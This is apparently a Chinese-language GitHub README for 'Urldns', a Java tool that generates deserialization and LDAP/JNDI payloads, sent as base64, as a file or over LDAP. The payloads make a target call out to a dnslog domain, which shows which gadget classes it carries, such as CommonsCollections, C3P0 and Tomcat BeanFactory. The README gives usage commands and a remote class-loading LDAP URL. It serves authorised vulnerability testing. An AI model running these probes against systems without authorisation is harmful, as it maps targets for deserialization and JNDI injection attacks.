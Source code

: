 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
``CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
winlinux``

使用ldap模式的all将额外探测如下
``javax.el.ELProcessor
org.apache.naming.factory.BeanFactory
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.mvel2.sh.ShellSession
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory``

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
